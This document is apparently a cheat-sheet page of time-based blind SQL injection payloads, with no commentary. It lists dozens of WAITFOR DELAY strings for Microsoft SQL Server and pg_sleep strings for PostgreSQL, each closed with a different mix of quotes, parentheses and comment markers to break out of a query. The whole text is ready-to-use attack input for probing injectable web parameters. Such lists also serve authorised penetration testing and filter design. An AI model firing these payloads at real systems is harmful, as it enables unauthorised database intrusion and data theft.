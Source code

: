 ### Microsoft SQL Server Blind **(Time Based)**: <a href="#id-0360" id="id-0360"></a>

```
;waitfor delay '0:0:5'--
';WAITFOR DELAY '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
'));waitfor delay '0:0:5'--
"));waitfor delay '0:0:5'--
") IF (1=1) WAITFOR DELAY '0:0:5'--
';%5waitfor%5delay%5'0:0:5'%5--%5
' WAITFOR DELAY '0:0:5'--
' WAITFOR DELAY '0:0:5'
or WAITFOR DELAY '0:0:5'--
or WAITFOR DELAY '0:0:5'
and WAITFOR DELAY '0:0:5'--
and WAITFOR DELAY '0:0:5'
WAITFOR DELAY '0:0:5'
;WAITFOR DELAY '0:0:5'--
;WAITFOR DELAY '0:0:5'
1 WAITFOR DELAY '0:0:5'--
1 WAITFOR DELAY '0:0:5'
1 WAITFOR DELAY '0:0:5'-- 1337
1' WAITFOR DELAY '0:0:5' AND '1337'='1337
1') WAITFOR DELAY '0:0:5' AND ('1337'='1337
1) WAITFOR DELAY '0:0:5' AND (1337=1337
') WAITFOR DELAY '0:0:5'--
" WAITFOR DELAY '0:0:5'--
')) WAITFOR DELAY '0:0:5'--
'))) WAITFOR DELAY '0:0:5'--
%' WAITFOR DELAY '0:0:5'--
") WAITFOR DELAY '0:0:5'--
")) WAITFOR DELAY '0:0:5'--
"))) WAITFOR DELAY '0:0:5'--
```

### Postgresql Blind (Time Based): <a href="#id-44db" id="id-44db"></a>

```
";SELECT pg_sleep(5);
;SELECT pg_sleep(5);
and SELECT pg_sleep(5);
1 SELECT pg_sleep(5);
or SELECT pg_sleep(5);
(SELECT pg_sleep(5))
pg_sleep(5)--
1 or pg_sleep(5)--
" or pg_sleep(5)--
' or pg_sleep(5)--
1) or pg_sleep(5)--
") or pg_sleep(5)--
') or pg_sleep(5)--
1)) or pg_sleep(5)--
")) or pg_sleep(5)--
')) or pg_sleep(5)--
pg_SLEEP(5)
pg_SLEEP(5)--
pg_SLEEP(5)#
```